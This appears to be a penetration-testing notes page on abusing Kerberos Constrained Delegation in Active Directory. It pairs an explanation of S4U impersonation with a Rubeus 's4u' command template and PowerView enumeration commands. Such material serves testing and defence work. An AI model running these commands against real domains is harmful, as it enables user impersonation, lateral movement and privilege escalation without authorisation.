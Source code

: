 ```yaml
---
label: Constrained Delegation
---
```


# Constrained Delegation Abuse

> **Requirements**
>
> * Compromised a service or a machine account with Constrained Delegation attribute.

Constrained Delegation is a special attribute (`TRUSTED_TO_AUTH_FOR_DELEGATION`) of a service account or machine account (with an associated SPN). This attribute means that an account with an SPN can use TGS for defined services on behalf of the user who authenticated to the service (example below).

## Correct usage

Example of correct usage (highly simplified):

```plaintext
                            Srv$
                  (  Machine account with  )
                  ( Constrained Delegation )
   User                |'''''''''''''|
|=======| -----------> | User's TGS  |
             (Auth)    |,,,,,,,,,,,,,|
                              |
                              |
                              |
                           HttpSvc
                  (     Allowed in Srv$      )
                  ( msds-allowedToDelegateTo ) 
                       |'''''''''''''|
                       | Auth using  |
                       | User's TGS  |
                       |,,,,,,,,,,,,,|
```

During authentication to Srv$ machine account (with Constrained Delegation) User's TGS is delegated. Srv$ can use User's TGS to access `HttpSvc` because this service is allowed in Srv$ Constrained Delegation `msds-allowedToDelegateTo` list of services.

## Abuse

An account with Constrained Delegation enabled is allowed to request TGT tickets to itself as any user, in a process known as _S4U2self_. That TGT is then used to request a valid TGS to `msds-allowedToDelegateTo` SPNs. As a result, we (`/user` param) obtain a TGS of another domain user (`/impersonateuser`) which is valid to the target SPN (`/msdsspn`). In addition, the service class in the target SPN (the protocol part) can be changed to any other (`/altservice`).

> **NOTE**: `/altservice` parameter can be used to access other services on the target server and exploit different attack techniques:
>
> * `LDAP` – [DCSync attack](/windows-domain-privesc/from-dc)
> * `HOST,HTTP` – [WinRM lateral movement](/windows-lateral-movement/winrm)
> * `HOST,RPCSS,CIFS` – [PsExec lateral movement](/windows-lateral-movement/)  

```powershell
# Using aes256 of compromised user (RC4 can be used as well)
.\Rubeus.exe s4u /user:$compromised_user /aes256:$compromised_user_aes256 /impersonateuser:$domain_user_to_impersonate /msdsspn:$legit_spn_from_msds_list /altservice:$alternative_service_class
```

## Enumerate machines and users with Constrained Delegation

PowerView module:

```powershell
Get-DomainUser -TrustedToAuth | select samaccountname, userprincipalname, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select samaccountname, userprincipalname, msds-allowedtodelegateto
```

## References

* [Ired, _Kerberos Constrained Delegation_](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)
* [NotSoShant.io, _Attacking Kerberos: Constrained Delegaton_](https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/)
* [Rubeus Tool, _Constrained Delegation_](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u)
* [Orange, _Constrained Delegation Considerations for Lateral Movement_](https://sensepost.com/blog/2022/constrained-delegation-considerations-for-lateral-movement/)
